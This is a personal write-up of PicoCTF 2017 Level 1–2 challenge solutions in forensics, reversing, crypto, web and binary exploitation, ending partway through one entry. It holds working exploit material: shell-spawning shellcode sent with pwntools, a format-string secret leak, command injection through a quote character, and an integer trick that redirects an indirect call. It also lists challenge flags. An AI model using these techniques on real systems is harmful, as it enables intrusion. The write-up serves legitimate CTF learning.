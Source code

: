#+TITLE: PicoCTF 2017
#+OPTIONS:  toc:4 
#+BEGIN_EXPORT html
<style type="text/css">
.h3, h3 {
    font-size: 25px;
    padding: 10px
}
.h4, h4 {
    font-size: 21px;
    padding: 22px
}
</style>

#+END_EXPORT

* Level 1 
** Forensics
*** Digital Camouflage
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Digital-Camouflage][Digital Camouflage]]

#+BEGIN_QUOTE
We need to gain access to some routers. Let's try and see if we can find the password in the captured network data : [[file:./data.pcap][data.pcap]]
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
It looks like someone logged in with their password earlier. Where would log in data be located in a n etwork capture?
If you think you found the flag, but it doesn't work, consider that the data may be encrypted.
#+END_QUOTE

Solution : 
 
This Problem gives us a network capture and we need to analyse the files to get the password of a login.
Using Wireshark we can export all the files from the pcap file . 
Files > Export Objects > HTTP 
Gives a list of HTML which is present in the captured file . And one of the file contains the password which is is encrypted in base64.

main.html
#+BEGIN_EXAMPLE
userid=spiveyp&pswrd=S04xWjZQWFZ5OQ%3D%3D
#+END_EXAMPLE

%3d represent = in url
#+BEGIN_SRC shell
echo S04xWjZQWFZ5OQ== | base64 -d
#+END_SRC

Gives the flag !
#+BEGIN_EXAMPLE
KN1Z6PXVy9
#+END_EXAMPLE

*** Special Agent User

Link : [[https://2017game.picoctf.com/game/level-1/challenge/Special-Agent-User][Special Agent User]] 

#+BEGIN_QUOTE
We can get into the Administrator's computer with a browser exploit. But first, we need to figure out what browser they're using.
Perhaps this information is located in a network packet capture we took: [[file:./data1.pcap][data.pcap]]
Enter the browser and version as "BrowserName BrowserVersion". NOTE: We're just looking for up to 3 levels of subversions for
the browser version (ie. Version 1.2.3 for Version 1.2.3.4) and ignore any 0th subversions (ie. 1.2 for 1.2.0)
#+END_QUOTE

Hint :

#+BEGIN_QUOTE
Where can we find information on the browser in networking data? Maybe [[http://www.useragentstring.com./][try reading up on user-agent strings]]
#+END_QUOTE

Solution :
User agent tell the server the details of which broser and os is the user use
Running xxd 
#+BEGIN_SRC shell
xxd data.pcap | grep -A 10 User
#+END_SRC
There was many wget entries and one was
#+BEGIN_EXAMPLE
--
00003c90: 2f20 4854 5450 2f31 2e31 0d0a 5573 6572  / HTTP/1.1..User
00003ca0: 2d41 6765 6e74 3a20 4d6f 7a69 6c6c 612f  -Agent: Mozilla/
00003cb0: 352e 3020 2857 696e 646f 7773 204e 5420  5.0 (Windows NT 
00003cc0: 352e 3129 2041 7070 6c65 5765 624b 6974  5.1) AppleWebKit
00003cd0: 2f35 3337 2e33 3620 284b 4854 4d4c 2c20  /537.36 (KHTML, 
00003ce0: 6c69 6b65 2047 6563 6b6f 2920 4368 726f  like Gecko) Chro
00003cf0: 6d65 2f33 352e 302e 3231 3137 2e31 3537  me/35.0.2117.157
00003d00: 2053 6166 6172 692f 3533 372e 3336 0d0a   Safari/537.36..
00003d10: 4163 6365 7074 3a20 2a2f 2a0d 0a48 6f73  Accept: */*..Hos
00003d20: 743a 2031 302e 302e 302e 310d 0a43 6f6e  t: 10.0.0.1..Con
00003d30: 6e65 6374 696f 6e3a 204b 6565 702d 416c  nection: Keep-Al
--
#+END_EXAMPLE
Which tells that the browser is Chrome version 35.0.2117

** Binary Explitation
*** Bash Loop
Link:[[https://2017game.picoctf.com/game/level-1/challenge/Bash-Loop][bash loop]]

#+BEGIN_QUOTE
We found a program that is hiding a flag but requires you to guess the number it is thinking of. Chances are Linux has an easy
way to try all the numbers... Go to /problems/69a376443853a8d385877f60375188bf and try it out!
#+END_QUOTE

Solution :

The location contain two files .
#+BEGIN_EXAMPLE
-rwxr-sr-x 1 hacksports bash-loop_7 8216 Mar 31 08:01 bashloop
-r--r----- 1 hacksports bash-loop_7   33 Mar 31 08:01 flag
#+END_EXAMPLE

bashloop has SUID bit set , Running bashloop ,gives
#+BEGIN_EXAMPLE
What number am I thinking of? It is between 0 and 4096
#+END_EXAMPLE
So it takes a number between 0 and 4096 as input .
~./bashloop 0~
#+BEGIN_EXAMPLE
Nope. Pick another number between 0 and 4096
#+END_EXAMPLE
Scripting with bash
#+BEGIN_SRC sh
for i in {0..4096};do  ./bashloop $i ;done | grep -v Nope           
#+END_SRC
Gives the flag!
#+BEGIN_EXAMPLE
Yay! That's the number! Here be the flag: 249808e7eba907b7e323f4f2fff2406d
#+END_EXAMPLE

*** Just No
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Just-No][just no]]

#+BEGIN_QUOTE
A program at /problems/276fc27f3ef921f0e2f0f75ba95c9e60 has access to a flag but refuses to share it. Can you convince it otherwise?
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge.
Could you possibly spoof another auth file it looks at instead...?
#+END_QUOTE

Soution:
Listing the directory 
#+BEGIN_EXAMPLE
-rw-r--r-- 1 hacksports just-no_7    2 Mar 31 08:00 auth
-r--r----- 1 hacksports just-no_7   33 Mar 31 08:00 flag
-rwxr-sr-x 1 hacksports just-no_7 7800 Mar 31 08:00 justno
-rw-r--r-- 1 hacksports just-no_7  838 Mar 31 08:00 justno.c
#+END_EXAMPLE
the file auth contains no and justno is suid executable which can open flag

~justno.c~
#+BEGIN_SRC c
##include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r"); //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
  if(authf == NULL){
    printf("could not find auth file in ../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if  (strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/276fc27f3ef921f0e2f0f75ba95c9e60/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
#+END_SRC

As the hint suggest the prblem is based on the relative path ,
vunarable code
#+BEGIN_EXAMPLE
FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r"); //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
#+END_EXAMPLE

It opens the auth file relative to the position of execution, So we create the same directory structure in tmp and create a file auth with
yes in it and run the program from that place , Since relative path is taken for auth file, the file which we have created will be taken
and we will get the Flag !!

#+BEGIN_EXAMPLE
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 8661ca23ef68adc41d407817b8656dd0
#+END_EXAMPLE
** Reverse Engineering
*** Hex2Raw
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Hex2Raw][hex2raw]]

#+BEGIN_QUOTE
This program requires some unprintable characters as input... But how do you print unprintable characters? CLI yourself to 
/problems/c69bcda4ca5a28fd9d18790fc763db73 and turn that Hex2Raw!
#+END_QUOTE

Running hex2raw program gives
#+BEGIN_EXAMPLE
Give me this in raw form (0x41 -> 'A'):
416f1c7918f83a4f1922d86df5e78348

You gave me:

#+END_EXAMPLE
and promt for input , we just need to print this hex as charecters
#+BEGIN_SRC shell
python -c 'print "\x41\x6f\x1c\x79\x18\xf8\x3a\x4f\x19\x22\xd8\x6d\xf5\xe7\x83\x48"' | ./hex2raw
#+END_SRC

Gives the Flag!
#+BEGIN_EXAMPLE
416f1c7918f83a4f1922d86df5e78348

You gave me:
416f1c7918f83a4f1922d86df5e78348
Yay! That's what I wanted! Here be the flag:
#+END_EXAMPLE
*** Raw2Hex
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Raw2Hex][raw2hex]]

#+BEGIN_QUOTE
This program just prints a flag in raw form. All we need to do is convert the output to hex and we have it! CLI yourself to 
/problems/7ed72aec10a93d978ec3542055975d36 and turn that Raw2Hex!
#+END_QUOTE

Solution :

Running raw2hex give the flag we need to take the hex of it

#+BEGIN_SRC shell
./raw2hex  |  xxd
#+END_SRC
#+BEGIN_EXAMPLE
0000000: 5468 6520 666c 6167 2069 733a 233a 338f  The flag is:#:3.
0000010: 3052 fec7 5f00 9f24 85ac 5352            0R.._..$..SR
#+END_EXAMPLE

And the flag is the  ~233a338f3052fec75f009f2485ac5352~  hex

** Web Exploitation
*** What Is Web
Link : [[https://2017game.picoctf.com/game/level-1/challenge/What-Is-Web][what is web]]

#+BEGIN_QUOTE
Someone told me that some guy came up with the "World Wide Web", using "HTML" and "stuff". Can you help me figure out what that is?  [[http://shell2017.picoctf.com:4443/][webpage]]
#+END_QUOTE

Solution: 

The flag is placed in the html , css and javascript files of the webpage
html
#+BEGIN_EXAMPLE
 The first part of the flag (there are 3 parts) is 72b28b258d2 
#+END_EXAMPLE
css
#+BEGIN_EXAMPLE
The second part of the flag is b2ea021486f 
#+END_EXAMPLE
js 
#+BEGIN_EXAMPLE
The final part of the flag is ddd5020451d
#+END_EXAMPLE

flag : 72b28b258d2b2ea021486fddd5020451d
* Level 2
** Forensics
*** Meta Find Me

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Meta-Find-Me][Meta-Find-Me]]

#+BEGIN_QUOTE
Find the location of the flag in the image: [[file:./image.jpg][image.jpg]] Note: Latitude and longitude values are in degrees with no degree symbols,
/direction letters, minutes, seconds, or periods. They should only be digits. The flag is not just a set of coordinates - if 
you think that, keep looking!
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
How can images store location data? Perhaps search for GPS info on photos.
#+END_QUOTE

Solution :

Running exiftool on the image gives

#+BEGIN_EXAMPLE
Comment                         : "Your flag is flag_2_meta_4_me_<lat>_<lon>_1c1f. Now find the GPS coordinates of this image! (Degrees only please)"

GPS Position                    : 7 deg 0' 0.00", 96 deg 0' 0.00"
#+END_EXAMPLE

The Comment and GPS Section gives the required flag

#+BEGIN_QUOTE
flag_2_meta_4_me_7_96_1c1f
#+END_QUOTE
*** Little School Bus
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Little-School-Bus][Little-School-Bus]] 

#+BEGIN_QUOTE
Can you help me find the data in this [[file:./littleschoolbus.bmp][littleschoolbus.bmp]]
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Look at least significant bit encoding!!
#+END_QUOTE

Solution :

As the Hint Suggest the Probelem is related to LSB Encoding , The left most digit in binary is called the LSB digit 

An image is constituent of pixel and each pixel contains 3 colors (RGB) with 8 bytes each so a color can have values from 0 - 256 , LSB
encoding is done by changing the LSB bit of the color , this slight variation is not notisable . So by changing the LSB bit we can hide
data inside a file .

#+BEGIN_SRC shell
xxd -b ./littleschoolbus.bmp | head -n 20
#+END_SRC

Gives ,

#+BEGIN_EXAMPLE
00000000: 01000010 01001101 11100010 01001011 00000010 00000000  BM.K..
00000006: 00000000 00000000 00000000 00000000 00110110 00000000  ....6.
0000000c: 00000000 00000000 00101000 00000000 00000000 00000000  ..(...
00000012: 11111100 00000000 00000000 00000000 11000111 00000000  ......
00000018: 00000000 00000000 00000001 00000000 00011000 00000000  ......
0000001e: 00000000 00000000 00000000 00000000 10101100 01001011  .....K
00000024: 00000010 00000000 00000000 00000000 00000000 00000000  ......
0000002a: 00000000 00000000 00000000 00000000 00000000 00000000  ......
00000030: 00000000 00000000 00000000 00000000 00000000 00000000  ......
00000036: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000003c: 11111111 11111110 11111110 11111111 11111111 11111110  ......
00000042: 11111111 11111111 11111110 11111110 11111110 11111111  ......
00000048: 11111111 11111110 11111110 11111110 11111110 11111111  ......
0000004e: 11111110 11111111 11111111 11111110 11111110 11111111  ......
00000054: 11111111 11111111 11111110 11111111 11111111 11111111  ......
0000005a: 11111111 11111110 11111111 11111111 11111110 11111111  ......
00000060: 11111111 11111111 11111110 11111110 11111111 11111110  ......
00000066: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000006c: 11111110 11111111 11111110 11111111 11111111 11111110  ......
00000072: 11111111 11111111 11111110 11111111 11111110 11111111  ......
#+END_EXAMPLE

Taking the LSB bit after the many zero 
#+BEGIN_EXAMPLE
00000036: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000003c: 11111111 11111110 11111110 11111111 11111111 11111110  ......
00000042: 11111111 11111111 11111110 11111110 11111110 11111111  ......
00000048: 11111111 11111110 11111110 11111110 11111110 11111111  ......
#+END_EXAMPLE

8 bit gives 
#+BEGIN_EXAMPLE
01100110 01101100
#+END_EXAMPLE
Which in ascii is ~fl~ ?

Now we script . 
#+BEGIN_SRC python :results output org drawer
binary_data = open("littleschoolbus.bmp","rb") # Open the file binary mode
binary_data.seek(54)  #seek to 54 bytes these bytes does not contain any data
data = binary_data.read() # read the binary data
l = [] 
for i in data:
    l.append(bin(i)[-1])  #make a list of LSB bit
for i in range(0,500,8):
    print(chr(int(''.join(l[i:i+8]),2)),end='') # print the charecter

#+END_SRC

#+RESULTS:

Which gives the flag !! 

#+BEGIN_QUOTE
flag{remember_kids_protect_your_headers_afb3}
#+END_QUOTE

Footnote :

1. [[http://www.aaronmiller.in/thesis/][LSB]]
2. [[http://www.devdungeon.com/content/working-binary-data-python][Python Binay]]
** Cryptography
*** SoRandom
:PROPERTIES:
:ID:       fe8713e5-ea3b-4bcc-afd9-5f062b4673df
:END:
Link : [[https://2017game.picoctf.com/game/level-2/challenge/SoRandom][SoRandom]]

#+BEGIN_QUOTE
We found [[file:./sorandom.py][sorandom.py]] running at shell2017.picoctf.com:27691. It seems to be outputting the flag but randomizing all the characters first. 
Is there anyway to get back the original flag?
#+END_QUOTE

Hint: 
#+BEGIN_QUOTE
How random can computers be?
#+END_QUOTE

Solution : 

This Given Python script
#+BEGIN_SRC python :results output org drawer
#!/usr/bin/python -u
import random,string

flag = "FLAG:"+open("flag", "r").read()[:-1]
encflag = ""
random.seed("random")
for c in flag:
  if c.islower():
    #rotate number around alphabet a random amount
    encflag += chr((ord(c)-ord('a')+random.randrange(0,26))%26 + ord('a'))
  elif c.isupper():
    encflag += chr((ord(c)-ord('A')+random.randrange(0,26))%26 + ord('A'))
  elif c.isdigit():
    encflag += chr((ord(c)-ord('0')+random.randrange(0,10))%10 + ord('0'))
  else:
    encflag += c
print "Unguessably Randomized Flag: "+encflag

#+END_SRC

Connecting to the server gives

#+BEGIN_QUOTE
Unguessably Randomized Flag: BNZQ:20380043pc5p8u861tcy650q8xn8mf5d
#+END_QUOTE

Analysing the python script tells us that it uses the random python module to generate random digit to rotate the input, the seed for the
radom generator is "random" . But this random generator is not completly random decause with the knowlage of the seed we can predict the 
radom number generated in i th iteration of the funtion .  

Creating  a scipt to break this encryption 

#+BEGIN_SRC python :results output org drawer
#!/usr/bin/python -u
import random
import string

flag = ""
encflag = "BNZQ20380043pc5p8u861tcy650q8xn8mf5d"


while len(flag) != len(encflag):
    random.seed("random")
    for i in range(len(flag)):
        random.randrange(0, 6)
    if encflag[len(flag)].isdigit():
        random_digit = random.randrange(0, 10)
    else:
        random_digit = random.randrange(0, 26)

    for c in list(string.ascii_letters) + list("0987654321"):
        if c.islower():
            # rotate number around alphabet a random amount
            cypher = chr((ord(c) - ord('a') + random_digit) % 26 + ord('a'))
        elif c.isupper():
            cypher = chr((ord(c) - ord('A') + random_digit) % 26 + ord('A'))
        elif c.isdigit():
            cypher = chr((ord(c) - ord('0') + random_digit) % 10 + ord('0'))
        else:
            cypher = c
        if cypher == encflag[len(flag)]:
            flag = flag + c
            break

    print(flag)
#+END_SRC

Which gives the flag !
#+BEGIN_QUOTE
FLAG:96109120ba8d1c844afe294c3cd1eb4c
#+END_QUOTE
*** LeakedHashes
Link : [[https://2017game.picoctf.com/game/level-2/challenge/LeakedHashes][LeakedHashes]]

#+BEGIN_QUOTE
Someone got hacked! Check out some service's password hashes that were leaked at [[file:./hashdump.txt][hashdump.txt]] Do you think they chose strong passwords?  
We should check... The service is running at shell2017.picoctf.com:3815!
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
See if you can crack any of the login credentials and then connect to the service as one of the users. What's the chance these hashes 
have actually already been broken by someone else? Are there websites that host those cracked hashes? Connect from the shell with nc.
#+END_QUOTE

Solution : 

We can crack this md5 hashes with online services  https://crackstation.net/ , This site allows of cracking of 20 entries 


#+BEGIN_QUOTE
christene:89689941d40794e311ef8bc7061b9944    : 7h1ck
#+END_QUOTE

After cracking the hash just login with the username and password to get the flag

#+BEGIN_QUOTE
flag is 4f36a002cc953e6567a878758abc8cf9
#+END_QUOTE
** Binary Exploitation
*** Shellz

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Shellz][Shellz]]

#+BEGIN_QUOTE
You no longer have an easy thing to call, but you have more space. Program: [[file:./shellz][shellz!]]  [[file:./shellz.c][Source]] . Connect on shell2017.picoctf.com:49324.
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
There is a bunch of preexisting shellcode already out there!
#+END_QUOTE

Solution :

The program reads 40 bytes and executes these binary , So we need to inject shell code of length less than 40 bytes

This is a shell code from [[https://www.exploit-db.com/exploits/36395/][explit-db]]
#+BEGIN_QUOTE
"\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad"
"\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd"
"\x80\x96\xcd\x80"
#+END_QUOTE

Exploit Code 

#+BEGIN_SRC python :results output org drawer
from pwn import *

host = "shell2017.picoctf.com"
port = "49324"

#shellcode which spawn shell
shellcode = "\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd\x80\x96\xcd\x80"

io = remote(host, port)  # Connect to the server
io.recvuntil("Give me 40 bytes:\n")  
io.sendline(shellcode)  # Sends the shellcode
io.sendline('cat flag.txt')
print "Flag : ",
print(io.readline())
io.close()

#+END_SRC

Which Gives the Flag !
#+BEGIN_QUOTE
51e2978e4e59013145c2613f01185802
#+END_QUOTE

*** Shells

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Shells][shells]]

How much can a couple bytes do? Use [[file:./shells][shells!]] [[file:./shells.c][Source]] . Connect on shell2017.picoctf.com:40976

Hint :
#+BEGIN_QUOTE
Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag
#+END_QUOTE

Solution :

We have to write basic shell code to call win funtion 

Exploit code 

#+BEGIN_SRC python :results output org drawer
from pwn import *

host = "shell2017.picoctf.com"
port = "40976"

context(arch="i386", os='linux')

payload = '''
/* call vuln funtion */
mov eax, 0x08048540
call eax 
'''


io = remote(host, port)
io.recvuntil("Give me 10 bytes:")
io.sendline(asm(payload))
print(io.readall())
io.close()

#+END_SRC

which gives the flag!

#+BEGIN_QUOTE
cd875b6ffb5cdd3319532d52ceca71aa
#+END_QUOTE

*** Guess The Number

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Guess-The-Number][Guess-the-Number]] 

#+BEGIN_QUOTE
Just a simple number-guessing game. How hard could it be? [[file:./guess_num][Binary]] [[file:./guess_num.c][Source.]] Connect on shell2017.picoctf.com:20545.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...
#+END_QUOTE

Solution :

Lets look at the souce code 
#+BEGIN_SRC C
/* How well do you know your numbers? */

#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}

int main(int argc, char **argv) {
    uintptr_t val;
    char buf[32] = "";

    /* Turn off buffering so we can see output right away */
    setbuf(stdout, NULL);

    printf("Welcome to the number guessing game!\n");
    printf("I'm thinking of a number. Can you guess it?\n");
    printf("Guess right and you get a shell!\n");

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
#+END_SRC

From the souce we can see that the address in val is called at last , so we need to get the adress of the funtion win into ~val~ . 
Interger from the input is stored into the variable with the funtion ~strtol() : convert a string to a long integer~ , Then 4 byte is is shifted to right 


#+BEGIN_SRC shell
objdump -d guess_num
#+END_SRC

gives the address of  win as ~0x0804852b~ which is 134513963 , when giving this to output the address called is 0x804852, 
This is because of the shift operator
#+BEGIN_EXAMPLE
>>> 0x0804852b
134513963
>>> bin(134513963)
'0b1000000001001000010100101011'
>>> hex(0b100000000100100001010010)
'0x804852'
#+END_EXAMPLE
So we need to input larger number , lets give ~0x0804852bb~ which is ~2152223419~ , but the value stored in the memory was ~0x7ffffff~ , 
this happend because of the overflow  0x0804852bb > 2 ** 31 - 1 .

I spend some time here without seeing the hint saying about negative numbers . How negative numbers are stored in computer , One of the 
fundemental idea complement notaion . So now we need to find a negarive number . Two's complement of ~0x0804852bb~ is ~-2142743877~ . 


Which gives the Flag !
#+BEGIN_EXAMPLE
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743877
You entered -2142743877. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
181db5615729e295ea7a5d5773c3829b
#+END_EXAMPLE

Footnote :

1. http://www.exploringbinary.com/twos-complement-converter/

*** Ive Got A Secret
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Ive-Got-A-Secret][Ive-Got-A-Secret]] 

#+BEGIN_QUOTE
Hopefully you can find the right format for my [[file:./secret][secret!]] [[file:./secret.c][Source.]] Connect on shell2017.picoctf.com:42684.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
This is a beginning format string attack.
#+END_QUOTE

Solution : 

The souce contains a format string vulnarability @
#+BEGIN_SRC c
printf("Give me something to say!\n");
fflush(stdout);
fgets(buffer, BUF_LEN, stdin);
printf(buffer);  /*<-- Here*/
#+END_SRC

Executing gives 
#+BEGIN_EXAMPLE
Give me something to say!
HI
HI
Now tell my secret in hex! Secret: d
As my friend says,"You get nothing! You lose! Good day, Sir!"
#+END_EXAMPLE

Lets look at the source 
#+BEGIN_SRC C
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>

#define BUF_LEN 64
char buffer[BUF_LEN];

int main(int argc, char** argv) {
    int fd = open("/dev/urandom", O_RDONLY);
    if(fd == -1){
        puts("Open error on /dev/urandom. Contact an admin\n");
        return -1;
    }
    int secret;
    if(read(fd, &secret, sizeof(int)) != sizeof(int)){
        puts("Read error. Contact admin!\n");
        return -1;
    }
    close(fd);
    printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);

    int not_secret;
    printf("Now tell my secret in hex! Secret: ");
    fflush(stdout);
    scanf("%x", &not_secret);
    if(secret == not_secret){
        puts("Wow, you got it!");
        system("cat ./flag.txt");   
    }else{
        puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    }

    return 0;
}

#+END_SRC

The program load a nunber from /dev/random and store it in variable secret , We have to use the format string to access variable and read its 
content

This is the place were the check occures
#+BEGIN_EXAMPLE
   0x080486ed <+258>:	add    esp,0x10
   0x080486f0 <+261>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486f3 <+264>:	mov    eax,DWORD PTR [ebp-0x14]
   0x080486f6 <+267>:	cmp    edx,eax
#+END_EXAMPLE

Breaking here and analysing the execution
#+BEGIN_EXAMPLE conf
gdb-peda$ break *0x080486f6
Breakpoint 1 at 0x80486f6
gdb-peda$ r
Starting program: /home/nemesis/Downloads/secret 
Give me something to say!
%x:%x:%x:%x:%x:%x 
40:f7faa5a0:8048792:1:ffffd0d4:756e6da
Now tell my secret in hex! Secret: 0x000111

[----------------------------------registers-----------------------------------]
EAX: 0x111 
EBX: 0x0 
ECX: 0x1 
EDX: 0x756e6da 
ESI: 0x1 
EDI: 0xf7faa000 --> 0x1b2db0 
EBP: 0xffffd028 --> 0x0 
ESP: 0xffffd010 --> 0x1 
EIP: 0x80486f6 (<main+267>:	cmp    edx,eax)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80486ed <main+258>:	add    esp,0x10
   0x80486f0 <main+261>:	mov    edx,DWORD PTR [ebp-0x10]
   0x80486f3 <main+264>:	mov    eax,DWORD PTR [ebp-0x14]
=> 0x80486f6 <main+267>:	cmp    edx,eax
   0x80486f8 <main+269>:	jne    0x804871c <main+305>
   0x80486fa <main+271>:	sub    esp,0xc
   0x80486fd <main+274>:	push   0x804886b
   0x8048702 <main+279>:	call   0x8048480 <puts@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffd010 --> 0x1 
0004| 0xffffd014 --> 0x111 
0008| 0xffffd018 --> 0x756e6da 
0012| 0xffffd01c --> 0x3 
0016| 0xffffd020 --> 0xf7faa3dc --> 0xf7fab1e0 --> 0x0 
0020| 0xffffd024 --> 0xffffd040 --> 0x1 
0024| 0xffffd028 --> 0x0 
0028| 0xffffd02c --> 0xf7e0f276 (<__libc_start_main+246>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080486f6 in main ()
gdb-peda$ 
#+END_EXAMPLE

EDX Register has the random hex which is shown by the 6 th %x , now we exploit !

#+BEGIN_EXAMPLE
Give me something to say!
%x:%x:%x:%x:%x:%x
40:f7fc7c20:8048792:1:ffffdd34:2e9a2fb1
Now tell my secret in hex! Secret: 0x2e9a2fb1
65aaf5d76d7fa708642cf1ab573ebf58
Wow, you got it!
#+END_EXAMPLE

*** Flagsay 1
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Flagsay-1][Flagsay-1]] 

#+BEGIN_QUOTE
I heard you like flags, so now you can make your own! Exhilarating! Use [[file:./flagsay-1][flagsay-1!]] [[file:./flagsay-1.c][Source]]. Connect on shell2017.picoctf.com:30556.
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
System will run exactly what the program gives it
#+END_QUOTE

Solution : 

running the binary file 
#+BEGIN_QUOTE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/     
            //AAAAAA                             /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //                                                     


#+END_QUOTE

While giving random input i realized that giving " gives an error

#+BEGIN_QUOTE
"
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             // /
sh: 4: //: Permission denied
sh: 5: //: Permission denied
sh: 6: //: Permission denied
sh: 7: //: Permission denied
sh: 8: //: Permission denied
sh: 9: //___________________________________/: not found
sh: 10: //: Permission denied
sh: 11: //: Permission denied
sh: 12: //: Permission denied
sh: 13: //: Permission denied
sh: 14: //: Permission denied
sh: 15: //: Permission denied
sh: 17: Syntax error: Unterminated quoted string

#+END_QUOTE

From the error we can identify that all the lines after is beeing executed and we can give any input , giving "cat flag.txt , tells
us the flag

#+BEGIN_QUOTE

#+END_QUOTE

*** VR Gear Console

Link : [[https://2017game.picoctf.com/game/level-2/challenge/VR-Gear-Console][VR-Gear-Console]]
#+BEGIN_QUOTE
Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: 
/problems/e9cab2bb993540454b19d3d56769d9e6
#+END_QUOTE

Hint: 
